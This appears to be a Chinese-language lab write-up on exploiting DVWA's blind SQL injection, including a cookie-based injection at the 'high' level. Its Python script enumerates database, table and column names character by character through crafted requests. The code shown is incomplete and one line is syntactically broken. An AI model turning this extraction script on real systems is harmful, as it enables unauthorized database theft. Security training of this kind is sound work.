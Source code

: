 ![MJunM9.png](https://s2.ax1x.com/2019/11/13/MJunM9.png)

 是一个cookie注入 

![MJuLLR.png](https://s2.ax1x.com/2019/11/13/MJuLLR.png)

```python
    def get_headers(self,payload):
        headers = {
            'Cookie': "id={0}; security=high; PHPSESSID=ms11imgpftrmfcp27rmk9s006c".format(payload)
        }
```

运行结果：

![MYZAMR.png](https://s2.ax1x.com/2019/11/13/MYZAMR.png)

## 完整脚本

```python 
from Injection import Injection

def main(url):
    Injection(url).run()

if __name__ == '__main__':
    url = "http://192.168.74.1/DVWA/vulnerabilities/sqli_blind/?id="
    main(url
```

### low:

```python
import requests
import string

class Injection:
    def __init__(self,url):
        self.url = url
        self.s = requests.session()
        self.zifuji = [44,48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 97, 98, 99, 100, 101, 102, 103, 104, 105, 106, 107, 108, 109, 110, 111, 112, 113, 114, 115, 116, 117, 118, 119, 120, 121, 122, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 95, 45, 64, 33, 38, 36]
        self.headers = {
            'Cookie': 'security=low; PHPSESSID=ms11imgpftrmfcp27rmk9s006c'
        }
    def process(self,yourstr,num1,num2):
        print("[+] Please wait ... {0} [{1}]/[{2}]".format(yourstr,str(num1),str(num2)),end='\r')
    def check(self,text):
        if "User ID exists in the database." in text:
            return True
        elif "User ID is MISSING from the database." in text:
            return False
    def run(self):
        self.get_itsnum()
        self.get_database_length()
        self.get_database()
        self.get_table_num()
        self.table_length = []
        self.table_name = []
        self.get_table_length()
        self.get_table_name()
        table_name = input('[-] table_name: ')
        self.get_column_num(table_name)
```